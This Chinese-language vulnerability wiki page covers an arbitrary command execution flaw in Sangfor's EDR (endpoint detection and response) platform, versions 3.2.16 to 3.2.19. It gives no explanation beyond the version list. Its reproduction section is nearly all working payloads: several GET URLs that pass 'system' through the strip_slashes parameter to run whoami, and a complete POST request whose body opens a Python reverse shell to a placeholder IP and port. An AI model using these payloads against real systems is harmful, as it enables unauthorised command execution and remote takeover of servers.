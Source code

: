 深信服 终端检测相应平台（EDR） 任意命令执行漏洞（一）
=====================================================

一、漏洞简介
------------

二、漏洞影响
------------

深信服EDR 3.2.16

深信服EDR 3.2.17

深信服EDR 3.2.19

三、复现过程
------------

### payload：

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&limit=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&host=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&path=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&row=whoami

![1.png](/Users/aresx/Documents/VulWiki/.resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(一)/media/rId25.png)

### 反弹shell payload

    POST /tool/log/c.php HTTP/1.1
    Host: www.0-sec.org
    Connection: close
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.81 Safari/537.36 SE 2.X MetaSr 1.0
    DNT: 1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Content-Type: application/x-www-form-urlencoded;charset=utf-8
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: PHPSESSID=b1464478cad68327229d8f46e60d0a08; _ga=GA1.4.112365795.1597799903; _gid=GA1.4.1225783590.1597799903
    Content-Length: 256

    strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
